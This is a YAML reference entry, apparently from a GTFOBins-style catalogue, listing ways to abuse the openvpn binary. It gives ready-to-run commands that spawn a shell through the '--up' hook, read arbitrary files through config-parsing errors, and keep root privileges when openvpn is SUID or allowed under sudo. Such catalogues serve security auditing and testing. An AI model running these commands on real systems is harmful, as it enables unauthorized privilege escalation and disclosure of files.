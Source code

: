 ```yaml
---
functions:
  shell:
    - code: |
        openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
  file-read:
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        openvpn --config "$LFILE"
  suid:
    - code: |
        ./openvpn --dev null --script-security 2 --up '/bin/sh -p -c "sh -p"'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        ./openvpn --config "$LFILE"
  sudo:
    - code: |
        sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        sudo openvpn --config "$LFILE"
---
```

